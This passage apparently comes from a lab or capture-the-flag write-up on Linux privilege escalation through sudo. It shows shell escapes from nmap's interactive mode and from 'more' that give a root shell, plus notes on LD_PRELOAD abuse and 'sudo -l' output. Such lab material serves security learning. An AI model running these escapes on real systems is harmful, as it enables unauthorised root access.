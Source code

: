 9. /usr/bin/nmap
```
$ sudo nmap --interactive

Starting Nmap V. 5.00 ( http://nmap.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-4.1# groups
root
```
11. /bin/more
```
$ TERM= sudo more /etc/profile

# /etc/profile: system-wide .profile file for the Bourne shell (sh(1))
# and Bourne compatible shells (bash(1), ksh(1), ash(1), ...).

if [ "`id -u`" -eq 0 ]; then
  PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
else
  PATH="/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games"
fi
export PATH

if [ "$PS1" ]; then
  if [ "$BASH" ]; then
    # The file bash.bashrc already sets the default PS1.
    # PS1='\h:\w\$ '
    if [ -f /etc/bash.bashrc ]; then
      . /etc/bash.bashrc
    fi
  else
    if [ "`id -u`" -eq 0 ]; then
      PS1='# '
    else
      PS1='$ '
    fi
!/bin/sh

sh-4.1# groups
root
```
Only with **/usr/sbin/apache2**, we can't escalate our privileges

### Task7:  Sudo - Environment Variables

**LD_PRELOAD** and **LD_LIBRARY_PATH** are both inherited from the user's environment.
* **LD_PRELOAD** loads a **shared object** before any others when a program is run.
* **LD_LIBRARY_PATH** provides a **list of directories where shared libraries are searched for first.**

```
$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
```